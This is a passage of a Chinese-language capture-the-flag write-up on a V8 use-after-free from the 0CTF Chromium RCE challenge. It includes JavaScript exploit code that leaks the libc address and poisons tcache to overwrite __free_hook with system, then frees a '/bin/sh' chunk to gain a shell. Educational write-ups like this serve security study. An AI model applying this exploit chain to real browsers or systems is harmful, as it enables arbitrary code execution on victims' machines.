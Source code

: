 利用的思路是：

- 先申请大的堆块，然后释放进`unsorted bin`，利用`uaf`漏洞泄露出`libc`地址。
    
    ```js
    // calloc a big chunk with 0x600
    let leak_ptr = calloc(0x600);
    let read_ptr = calloc(0x600);
    
    // calloc a chunk with /bin/sh string
    let gap = calloc(0x100);
    write64(gap, 0, 0x68732f6e69622fn);
    
    // free big chunk to unsorted_bin
    free(leak_ptr);
    
    // uaf to leak libc address
    read_ptr.set(leak_ptr);
    
    let libc_base = read64(read_ptr, 8) - 0x1ebbe0n;
    console.log("[+] libc base: 0x"+hex(libc_base));
    ```
- 申请小堆块，然后释放进`tcache`，然后利用`uaf`漏洞修改`tcache`的指针指向`free hook`。
    
    ```js
    // malloc tcache chunk with 0x60
    let evil_ptr = malloc(0x60);
    // malloc another tcache chunk with 0x60
    let evil_ptr1 = malloc(0x60);
    let write_ptr = malloc(0x60);
    // deploy a chunk with free_hook addr content
    write64(write_ptr, 0, free_hook);
    
    // free 0x60 chunk to tcache, tcache count is 1;
    free(evil_ptr1);
    // free evil chunk to tcache, tcache count is 2;
    free(evil_ptr);
    
    // set tcache chunk fd to free_hook addr;
    evil_ptr.set(write_ptr);
    
    // malloc out the first chunk, tcache count is 1;
    let reserved_ptr = malloc(0x60);
    // malloc out free_hook chunk, tcache count is 0;
    let free_hook_ptr = malloc(0x60);
    ```
- 修改`free hook`的内容为`system`地址，释放内容`/bin/sh`的堆块，成功`get shell`。
    
    ```js
    // write system addr to free_hook
    write64(free_hook_ptr, 0, system_addr);
    
    // free mem with /bin/sh to get shell.
    free(gap);
    ```

要提一句的是调试的时候最好把第二部分的`patch`即`function->function_id != Runtime::kArrayBufferDetach`对内置函数判断的检查给去掉，这样就可以正常使用其他的内置函数来，不然像`%DebugPrint`这些函数用不了的话，还是影响调试的。

总结
--

体验`v8`里面的`uaf`漏洞，感觉比较新颖，也加深了对`TypedArray backing_store`指针的理解。

参考
--

- [0CTF Chromium RCE WriteUp](https://www.anquanke.com/post/id/209401)
- [Chromium RCE - v8 exploitation](https://fineas.github.io/FeDEX/post/chromium_rce.html)
